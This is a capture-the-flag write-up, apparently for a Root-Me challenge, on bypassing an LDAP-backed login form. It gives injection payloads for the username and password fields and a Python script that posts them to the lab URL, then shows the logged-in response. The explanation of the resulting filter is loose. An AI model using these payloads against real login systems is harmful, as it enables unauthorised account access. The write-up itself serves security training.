

# LDAP injection - Authentication

## Statement :

Bypass authentication mecanism.

## Analysis



We get a simple login form with `username` and `password` fields. The backend likely builds an LDAP filter like:

```
(&(uid=<username>)(userPassword=<password>))
```

If the inputs are not sanitized, we can inject LDAP syntax to bypass the authentication check entirely.

## Exploit

The idea is to inject into both fields so the resulting filter always evaluates to true. By sending `*)(|(&` as the username and `pwd)` as the password, the filter becomes:

```
(&(uid=*)(|(&)(userPassword=pwd)))
```

`uid=*` matches any user, and the `|` (OR) operator with an always-true clause ensures the filter succeeds regardless of the password.

I used this script to automate the injection:

```python
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ====================== CONFIG ======================

URL = "http://challenge01.root-me.org/web-serveur/ch25/"   # Target URL
METHOD = "POST"                                            # HTTP method
USER_FIELD = "username"                                    # Name of the username form field
PASS_FIELD = "password"                                    # Name of the password form field

# Injection payloads
USER_PAYLOAD = "*)(|(&"
PASS_PAYLOAD = "pwd)"

# ====================================================


def main():
    data = {
        USER_FIELD: USER_PAYLOAD,
        PASS_FIELD: PASS_PAYLOAD,
    }

    if METHOD.upper() == "POST":
        r = requests.post(URL, data=data, verify=False)
    else:
        r = requests.get(URL, params=data, verify=False)

    print(f"[*] Status: {r.status_code}")
    print(f"[*] Response:\n{r.text}")


if __name__ == "__main__":
    main()

```

The response confirms we bypassed authentication and logged in as `ch25`:

```text
[*] Status: 200
[*] Response:
<html>...<h2>Welcome back ch25</h2>...
<li>Password : <input type="password" disabled="disabled" value="****"/></li>
...</html>
```

The flag is the password value shown in the response: `value="****"`.